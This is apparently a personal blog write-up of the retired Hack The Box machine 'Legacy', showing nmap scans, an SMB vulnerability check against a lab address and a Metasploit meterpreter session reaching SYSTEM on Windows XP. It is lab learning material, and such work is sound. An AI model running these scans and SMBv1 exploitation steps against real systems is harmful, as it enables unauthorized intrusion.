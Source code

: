 ```yaml
---
layout: post
title: Legacy
date: 2020-03-30
author: th3-3inst3in
comments: true
categories: htb
tags: [windows,htb]
---
```


## Legacy writeup

Hi there, how you doin ?
For a long long time now I've been avoiding Hack the box cause I am sort of an addict for CTFs and I've heard that htb is one of the best playgrounds out there. I was just waiting for a time period where I could just sit down and do this without any distractions and what better time then this COVID-19 pendemic when everyone is quarantined.
Thought I'd star with retired with easy retired machines which would get me warmed up so here we are Legacy writeup.


![main]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Legacy/cover.png)


Let's do a quick nmap all ports

```bash
PORT     STATE  SERVICE       REASON          VERSION
139/tcp  open   netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  syn-ack ttl 127 Windows XP microsoft-ds
3389/tcp closed ms-wbt-server reset ttl 127
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h32m49s, deviation: 2h07m16s, median: 4d23h02m49s
| nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:4f:ab (VMware)
| Names:
|   LEGACY<00>           Flags: <unique><active>
|   HTB<00>              Flags: <group><active>
|   LEGACY<20>           Flags: <unique><active>
|   HTB<1e>              Flags: <group><active>
|   HTB<1d>              Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   00 50 56 b9 4f ab 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 40600/tcp): CLEAN (Timeout)
|   Check 2 (port 13996/tcp): CLEAN (Timeout)
|   Check 3 (port 50902/udp): CLEAN (Timeout)
|   Check 4 (port 38560/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-04-04T08:00:18+03:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-security-mode: Couldn't establish a SMBv2 connection.
|_smb2-time: Protocol negotiation failed (SMB2)

```

#### Enumeration

- I ran another nmap scan `nmap -p 139,445 --script smb-vuln* 10.10.10.4` It gave me the following result sayign the SMBv1 is vulnerable to remote code execution

![smb-nmap-output]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Legacy/smb.png)

#### Exploitation

Quick google search and I found out that msf can be used to gain a shell. Used the following exploit and got an initial shell. 
After I ran getuid found out I had been dropped on to the NT Authority shell.



![shell]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Legacy/shell.png)



```bash
meterpreter > sysinfo
Computer        : LEGACY
OS              : Windows XP (5.1 Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > ls
Listing: C:\Documents and Settings\Administrator\Desktop
========================================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100444/r--r--r--  32    fil   2017-03-16 02:18:19 -0400  root.txt

```
That's all pretty simple